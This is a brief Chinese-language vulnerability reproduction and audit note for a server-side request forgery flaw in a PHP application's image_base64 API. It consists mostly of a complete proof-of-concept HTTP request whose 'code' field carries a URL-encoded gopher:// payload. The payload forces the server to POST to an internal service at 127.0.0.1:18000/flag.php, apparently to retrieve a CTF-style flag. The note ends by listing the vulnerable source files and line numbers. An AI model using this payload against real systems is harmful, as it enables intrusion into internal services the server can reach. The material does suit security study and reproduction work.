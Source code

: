 ### 漏洞复现

使用 gopher 协议发送请求：

![document_image_rId74.png](assets/1703831601-c4e5451289aa25a0f1ebc332818f8561.png)

需要替换 code 为 payload，如果没有接收到请求，将 payload 替换到 image 变量也是可以的。  
POC 请求包：

```php
POST /api/image_base64 HTTP/1.1
Host: localhost:45600
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
Accept: application/json, text/plain, */*
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
sec-ch-ua-platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/json;charset=UTF-8
Content-Length: 258

{"image":"?.jpg","code":"gopher://127.0.0.1:18000/_POST%20%2Fflag.php%20HTTP%2F1.1%0A%0DHost%3A%20127.0.0.1%3A18000%0A%0DContent-Type%3A%20application%2Fx-www-form-urlencoded%0A%0DContent-Length%3A%2036%0A%0D%0A%0Dkey%3D00f001523d0b955749ea5e3b0ca09b5f.jpg"}
```

### 漏洞审计

利用链路：

```php
services/system/attachment/SystemAttachmentServices.php videoUpload 261行
    adminapi/controller/v1/file/SystemAttachment.php videoUpload 136行
```
